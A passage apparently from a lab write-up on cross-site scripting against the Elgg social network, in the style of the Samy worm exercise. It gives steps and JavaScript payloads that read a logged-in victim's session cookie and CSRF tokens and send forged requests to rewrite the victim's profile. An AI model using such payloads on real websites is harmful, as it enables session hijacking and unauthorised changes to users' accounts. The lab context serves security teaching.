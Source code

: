 ```js
    Ajax = new XMLHttpRequest();

    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);  // access the session cookie
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

### POST with Js - modify profile

![Screen Shot 2020-09-20 at 01.02.54](https://i.imgur.com/75zUEkB.png)

1. capture the POST request packet

2. construct the URL for send add friend Request

3. write the Ajax code

```js
<script type="text/javascript">
window.onload = function(){

    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content
    var content = "My new profile text.";

    //Create and send Ajax request to modify profile
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);

    var samyGuid=AAVVXX; //FILL IN
    if(elgg.session.user.guid!=samyGuid) {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
```
